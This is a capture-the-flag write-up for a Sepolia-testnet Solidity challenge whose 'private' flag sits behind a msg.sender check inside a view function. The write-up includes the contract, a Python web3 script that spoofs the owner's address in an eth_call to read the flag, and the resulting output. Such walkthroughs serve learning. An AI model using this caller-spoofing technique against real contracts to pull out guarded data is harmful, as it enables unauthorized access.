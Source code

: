 ### Challenge Overview
This is an esy web3 challenge with only one file ``safe.sol``

This challenge involves a simple smart contract deployed on the Sepolia test network. The contract, Safe, contains a private flag that can only be accessed by the owner. However, due to a vulnerability in the contract, we can exploit it to retrieve the flag without being the owner.
```C#
// SPDX-License-Identifier: MIT
pragma solidity >= 0.7.0 < 0.9.0;

contract Safe {
    address public owner;
    string private flag =  "bisc2023{FAKE_FLAG}";

    constructor() {
        owner = msg.sender;
    }

    function opensafe() public view returns (string memory) {
        if(owner == msg.sender){
            return flag;
        }
        else {
            return "Your not owner!!";
        }
    }

    function changeOwner(address _owner) public {
        require(owner == msg.sender, "Your not owner!!");
        owner = _owner;
    }
}


```

In this challenge, the smart contract was deployed in test Sepolia network. 
There are two functions in this code, ``openSafe() and changeOwner()`` 
* openSafe(): read flag if you are owner
* changeOwner(): allow current owner transfer ownership to another address


### Exploitation

#### Identify the Owner:

The owner is a public variable, so we can call the owner() function to retrieve the owner's address.
#### Spoof the Caller:

Using Web3, we call the opensafe() function and set the from parameter to the owner's address.
Since opensafe() is a view function, the blockchain does not verify the signature of the caller, allowing us to spoof the address.
#### Retrieve the Flag:

The contract believes the caller is the owner and returns the private flag.

#### Script Code
```py
from web3 import Web3

RPC_URL = "https://eth-sepolia.public.blastapi.io"
CONTRACT_ADDRESS = "0x5e992854Bd912ae170b7b5b8a64323e4e5E0feAF"

ABI = [
    {
        "inputs": [],
        "name": "owner",
        "outputs": [{"internalType": "address", "name": "", "type": "address"}],
        "stateMutability": "view",
        "type": "function"
    },
    {
        "inputs": [],
        "name": "opensafe",
        "outputs": [{"internalType": "string", "name": "", "type": "string"}],
        "stateMutability": "view",
        "type": "function"
    }
]

web3 = Web3(Web3.HTTPProvider(RPC_URL))
contract = web3.eth.contract(address=CONTRACT_ADDRESS, abi=ABI)

def get_flag():
    owner_address = contract.functions.owner().call()
    print(f"Owner address: {owner_address}")
    
    print("Exploiting vulnerability...")
    flag = contract.functions.opensafe().call({'from': owner_address})
    
    print(f"Flag: {flag}")
    return flag

if __name__ == "__main__":
    print(f"Connected to blockchain: {web3.is_connected()}")
    
    if web3.is_connected():
        get_flag()
    else:
        print("Cannot connect to blockchain. Check the RPC URL.")

```

#### Result
```
khanh@ubuntu:~/Documents/WorkSpaceDreamHack/blockchain/BISC-safe$ python3 exploit.py 
Connected to blockchain: True
Owner address: 0xde90dD6033BFA475e3d517ec882c253B4E6D8B64
Exploiting vulnerability...
Flag: bisc2023{W0w_f0und_The_6aCk_do0r_t0_th3_5af3!!}
```